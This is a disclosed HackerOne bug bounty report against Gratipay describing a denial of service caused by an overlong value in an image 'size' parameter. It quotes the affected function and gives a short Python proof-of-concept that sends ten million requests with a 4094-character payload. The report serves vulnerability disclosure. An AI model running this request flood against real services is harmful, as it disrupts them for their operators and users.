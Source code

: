 # Application-level DoS on image's "size" parameter.

## Report Details
- **Report ID**: 247700
- **URL**: https://hackerone.com/reports/247700
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-07-10T12:41:39.049Z
- **Disclosed**: 2017-11-02T19:16:20.811Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gratipay

## Vulnerability Information
# Summary
---

The `size` parameter located on images is vulnerable to DoS. By modifying the parameter's value an attacker can cause the application to work very slowly.

# Description
---

The issue is located in the `get_image_url()` function in `gratipay/models/team/__init__.py` and can be exploited by replacing the `small` or `large` values in the following GET request: `http://<GRATIPAY INSTANCE>/<USER>/image?size=small`.

~~~python
# Images
# ======

IMAGE_SIZES = ('original', 'large', 'small')

def get_image_url(self, size):
    assert size in ('original', 'large', 'small'), size
    return '/{}/image?size={}'.format(self.slug, size)
~~~

Link: https://github.com/gratipay/gratipay.com/blob/1985e43033edd87bd16cdb46c16adbcda0bb6bc4/gratipay/models/team/__init__.py#L312-L314

# How can this issue be exploited?
---

Repeatedly sending values of 4094 characters in length will cause the DoS.

~~~python
import requests
payload = "a" * 4094
url = "http://<GRATIPAY INSTANCE>/<USER>/image?size=small" + payload

for i in range(10000000):
	requests.get(url)
~~~

## Attachments
No attachments
